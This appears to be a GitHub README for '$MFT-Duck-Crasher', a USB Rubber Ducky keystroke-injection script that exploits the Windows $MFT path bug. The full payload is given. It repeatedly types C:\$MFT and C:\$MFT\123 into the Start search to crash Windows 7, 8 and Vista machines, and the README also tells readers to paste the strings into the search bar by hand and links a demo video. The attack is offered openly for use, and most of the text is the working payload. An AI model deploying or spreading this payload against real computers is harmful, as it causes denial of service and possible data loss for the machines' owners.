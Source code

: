 # -$MFT-Duck-Crasher
A Simple Script for Rubber Ducky which Exploits Windows $MFT Vulnerability
$MFT is used by NTFS systems to manage some metadata.
 This fallace has recently been discovered, which has not yet been closed. Works on windows 7, 8 and vista, dont work on windows 10. I think work on Xp and earlier.
This Script dont require any special firmware on the Rubber Ducky (TwinDuck Firmare etc.).
You can also use this two strings directly on the Windows SearchBar to crash a computer.
The system crash lasts until the machine is switched off, or until the blue screen of death appears;)

A system crash demonstration using the two strings with the following paths: c:\$MFT & c:\$MFT\123 
can be found here:
https://www.youtube.com/watch?v=vYL9UQRwUZc&t=6s


<br <br/> <br/> <br/> <br/> <br/> <br/>



<a href="http://www.youtube.com/watch?feature=player_embedded&v=vYL9UQRwUZc
" target="_blank"><img src="http://img.youtube.com/vi/vYL9UQRwUZc/0.jpg" 
alt="$MFT" width="600" height="450" border="100" /></a> 



$MFT-Duck-Crasher Payload
<br/>
<br/>
REM works on w7 - w8 - Vista (and i think xp and earlier too)
<br/>
REM it uses a high delay to support even older computers
<br/>
DELAY 1000
<br/>
CONTROL ESCAPE
<br/>
DELAY 500
<br/>
STRING C:\$MFT
<br/>
DELAY 500
<br/>
ENTER
<br/>
DELAY 700
<br/>
REM the 2nd enter is to close the error
<br/>
ENTER
<br/>
DELAY 500
<br/>
CONTROL ESCAPE
<br/>
DELAY 500
<br/>
STRING C:\$MFT\123
<br/>
DELAY 500
<br/>
ENTER
<br/>
DELAY 700
<br/>
ENTER
<br/>
DELAY 500
<br/>
CONTROL ESCAPE
<br/>
DELAY 500
<br/>
STRING C:\$MFT
<br/>
DELAY 500
<br/>
ENTER
<br/>
DELAY 700
<br/>
ENTER
<br/>
DELAY 500
<br/>
CONTROL ESCAPE
<br/>
DELAY 500
<br/>
STRING C:\$MFT\123
<br/>
DELAY 500
<br/>
ENTER
DELAY 700
ENTER
                                                            
